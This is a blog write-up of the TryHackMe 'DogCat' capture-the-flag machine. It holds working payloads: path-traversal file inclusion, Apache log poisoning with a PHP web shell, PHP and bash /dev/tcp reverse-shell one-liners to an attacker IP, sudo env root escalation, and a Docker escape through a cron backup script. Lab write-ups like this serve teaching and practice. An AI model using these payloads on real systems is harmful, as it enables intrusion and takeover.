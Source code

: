 ```yaml
---
layout: post
title:  "THM Write-Up DogCat"
summary: Write-Up to the TryHackMe Machine DogCat
author: utnelson
date: '2022-02-14 11:17:23'
category: ['thm','write-up', 'medium']
thumbnail: \assets\img\posts\dogcat\title.png
keywords: dogcat, thm, box, easy, write-up, walkthrough, lfi, path, traversal, docker
permalink: /blog/write-up-dogcat/
---
```

Machine: [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Enumeration

```console
root@machine:~$ nmap 10.10.64.63 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-14 22:30 CET
Nmap scan report for localhost (10.10.64.63)
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two ports open. So lets check 80 with the running http server. 

<div class="text-center">
    <img src="\assets\img\posts\dogcat\page.PNG" class="rounded img-fluid">   
</div>
<br/>

The url looks interesting. `?view=cat`. Seems to be anything with LFI (local file inclusion). We could try to modify it with:

`http://10.10.64.63/view=../../../../../../../etc/passwd`

We get an error:
<div class="text-center">
    <img src="\assets\img\posts\dogcat\onlydogcat.PNG" class="rounded img-fluid">   
</div>
<br/>

Just add `dog` in front the string. So it looks like this: `http://10.10.64.63/?view=dog/../../../../../../../etc/passwd`

A new error appears:

<div class="text-center">
    <img src="\assets\img\posts\dogcat\newerror.PNG" class="rounded img-fluid">   
</div>
<br/>

On [Hacktricks PHP Wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-php-filter) I found something interesting. With the string: `php://filter/convert.base64-encode/resource=dog` we can see the source code of the `dog.php` in base64 encoding.

For decoding I used my running burpsuite.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\decodedog.PNG" class="rounded img-fluid">   
</div>
<br/>

```php
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```

This code prints just a random dog picture with every request. We can also look into the php code of the `index.php`. That is much more interesting.

Modify the string as follow: `?view=php://filter/convert.base64-encode/resource=dog/../index` and decode it again.

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Nice! We can modify the `ext` variable and set it to none. So we can again use our payload from the first try.
`http://10.10.64.63/?view=dog/../../../../../../../etc/passwd&ext=`

It's working. We can see the `/passwd`` file. With burpsuite we have also a pretty good format.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\passwd.PNG" class="rounded img-fluid">   
</div>
<br/>

From my enumeration I know this is running on a apache server. We may can look for log files.

We finaly can find the at: `/var/log/apache2/access.log`

<div class="text-center">
    <img src="\assets\img\posts\dogcat\log.PNG" class="rounded img-fluid">   
</div>
<br/>

Our User-Agent Header is beeing inside the logfile. We can modify it that it will be executed with our main.php file. We try at first:

`<?php system("ls")?>` 

Ooops. This endend a few times with fatal error and I was not able to view the logs again. So I have restartet the machine more than 3 times.  

Finally the User-Agent: `<?php system($_GET['cmd']);?>` 

and the GET string `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls` 

was fine and i was able to see the RCE.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\rce.PNG" class="rounded img-fluid">   
</div>
<br/>

So we just need to form a payload for a php reverse shell. I tried something new with the shell generator. [Generator](https://www.revshells.com/)

```console
php -r '$sock=fsockopen("10.14.20.70",9001);shell_exec("/bin/sh <&3 >&3 2>&3");'
```

We need to URL encode this string.

URL encoded:

```console
/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.14.20.70",9001)%3bshell_exec("/bin/sh+<%263+>%263+2>%263")%3b'
```

 In burpsuite pretty easy with `ctrl+u`. 
 
 Set a listener up with and boom shell:

```console
root@machine:~$ nc -lvp 9001
listening on [any] 9001 ...
connect to [10.14.20.70] from localhost [10.10.21.32] 59000
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
```
There we can find our first flag: `flag.php`

Flag2 is right next to it in the upper directory so only `cd..`

## Escalation

First try `sudo -l`

```console
sudo -l
Matching Defaults entries for www-data on 9e566ca216b3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 9e566ca216b3:
    (root) NOPASSWD: /usr/bin/env
```

Quick look to GTFObins and we find the way we can spawn a root shell.

`sudo env /bin/sh`

Boom root shell. Find the flag at `/root/flag3.txt`

## Escape docker

Looking around we find a `.dockerenv` file. So we are inside a docker container.
Further enumeration we can spot a interesting file inside `/opt/backups`, we see a `backup.sh` with write permissions.  

```console
tar cf /root/container/backup/backup.tar /root/container
```

Its frequently backups the container certainly with a cron job.
We put a simple reverse shell inside the `backup.sh` and set up a nc listener.

```console
echo "/bin/sh -i >& /dev/tcp/10.14.20.70/9002 0>&1" >> backup.sh
```

Boom Shell. Now we are on the machine itself and escaped the docker container. The fourth flag is inside the `/root` dir.
